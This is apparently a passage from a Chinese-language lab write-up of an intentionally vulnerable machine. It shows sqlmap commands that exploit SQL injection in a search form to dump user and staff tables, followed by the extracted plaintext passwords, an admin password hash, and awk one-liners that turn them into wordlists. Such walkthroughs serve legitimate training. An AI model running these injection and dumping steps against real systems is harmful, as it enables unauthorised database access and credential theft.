 先看一下users库

```shell
sqlmap -u http://192.168.238.52/results.php --data "search=1" -D users --tables
sqlmap -u http://192.168.238.52/results.php --data "search=1" -D users -T UserDetails --columns
sqlmap -u http://192.168.238.52/results.php --data "search=1" -D users -T UserDetails -C username,password --dump
```

得到了一些用户名和密码，保存到users.txt

```
| marym     | 3kfs86sfd     |
| julied    | 468sfdfsd2    |
| fredf     | 4sfd87sfd1    |
| barneyr   | RocksOff      |
| tomc      | TC&TheBoyz    |
| jerrym    | B8m#48sd      |
| wilmaf    | Pebbles       |
| bettyr    | BamBam01      |
| chandlerb | UrAG0D!       |
| joeyt     | Passw0rd      |
| rachelg   | yN72#dsd      |
| rossg     | ILoveRachel   |
| monicag   | 3248dsds7s    |
| phoebeb   | smellycats    |
| scoots    | YR3BVxxxw87   |
| janitor   | Ilovepeepee   |
| janitor2  | Hawaii-Five-0 |
```

将用户名和密码，分别保存到两个文件中

```shell
cat users.txt | awk -F'[| ]+' '{print $2}' > user.txt
cat users.txt | awk -F'[| ]+' '{print $3}' > pass.txt
```

接着再去看Staff库

```shell
sqlmap -u http://192.168.238.52/results.php --data "search=1" -D Staff --tables
sqlmap -u http://192.168.238.52/results.php --data "search=1" -D Staff -T Users --columns
sqlmap -u http://192.168.238.52/results.php --data "search=1" -D Staff -T Users -C Username,Password --dump
```

#### 登录后台

得到了用户名，密码，这个看着像后台的登录账号

```shell
+----------+----------------------------------+
| Username | Password                         |
+----------+----------------------------------+
| admin    | 856f5de590ef37314e7c3bdf6f8a66dc |
+----------+----------------------------------+
```
